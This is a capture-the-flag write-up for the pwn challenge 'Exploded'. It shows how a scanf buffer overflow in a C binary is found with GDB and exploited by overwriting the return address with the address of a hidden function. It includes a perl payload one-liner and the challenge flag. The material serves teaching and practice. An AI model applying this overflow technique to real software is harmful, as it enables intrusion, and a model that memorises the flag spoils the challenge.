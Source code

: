 # Exploded

## Question Text

Here's a program that I made. Seems like it works the way I want it to.

`nc pwn2.chal.gryphonctf.com 18404`

*Creator - Noans*

## Setup Guide
1. Run `build.sh` in the service folder.

## Distribution
- stolen
    - SHA1: `6c79423c4ee2c70c07fa2ad3eb102e1d1986a5cc`
    - Compiled C binary

## Solution
The program, written in C, is vulnerable to the buffer overflow exploit.

Using GDB, disassembling the main method will give the follow output will tell us that a method called `doStuff` is run. Upon disassembling the `doStuff` method, we will see that is simply a method that prints some text and uses `scanf()` to attain user input.

Knowing this, we can thus attempt to exploit `scanf()` since it is vulnerable to buffer overflow exploits.

Using `info functions` in GDB, we can list all the functions as shown below:
```asm
(gdb) info functions
Non-debugging symbols:
0x00005555555546d8  _init
0x0000555555554700  setbuf@plt
0x0000555555554710  printf@plt
0x0000555555554720  srand@plt
0x0000555555554730  time@plt
0x0000555555554740  setvbuf@plt
0x0000555555554750  __isoc99_scanf@plt
0x0000555555554760  rand@plt
0x0000555555554770  __cxa_finalize@plt
0x0000555555554780  _start
0x00005555555547b0  deregister_tm_clones
0x00005555555547f0  register_tm_clones
0x0000555555554840  __do_global_dtors_aux
0x0000555555554880  frame_dummy
0x000055555555488a  main
0x00005555555548ed  doStuff
0x0000555555554947  interestingFunction
0x000055555555495f  randomOutput
0x00005555555549d0  __libc_csu_init
0x0000555555554a40  __libc_csu_fini
0x0000555555554a44  _fini
```

The output shows us a function called `interestingFunction` that is neither used in the main method or in `doStuff`.

Recalling the previously disassembled `doStuff` method, in the disassembly, we will see a line `0x0000555555554906 <+25>:	lea    -0x30(%rbp),%rax`. This line tells us that the variable used in the scanf method was allocated a space of 48 bytes in the stack. This thus allows us to build our exploit string.

Taking into account that the rbp is 8 bytes, we would need to write a total of 56 bytes before we can override the return address to run the interestingFunction.

Disassembling the `interestingFunction` method, we will see the following output:
```asm
Dump of assembler code for function interestingFunction:
   0x0000555555554947 <+0>:	push   %rbp
   0x0000555555554948 <+1>:	mov    %rsp,%rbp
   0x000055555555494b <+4>:	lea    0x118(%rip),%rdi        # 0x555555554a6a
   0x0000555555554952 <+11>:	mov    $0x0,%eax
   0x0000555555554957 <+16>:	callq  0x555555554710 <printf@plt>
   0x000055555555495c <+21>:	nop
   0x000055555555495d <+22>:	pop    %rbp
   0x000055555555495e <+23>:	retq
End of assembler dump.
```

Thus, our exploit string can be generated with the follow command, account for the 56 bytes we need to write and the address of `interestingFunction` after the first line.

`perl -e 'print "a"x56 . "\x48\x49\x55\x55\x55\x55\x00\x00"'`

This gives us the string `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaHIUUUU`.

With the string generated from the above, we can run `nc <hostname> <port>` and enter the string as input to get the flag.

### Flag
`GCTF{0V3R_7H3_L1M17}`

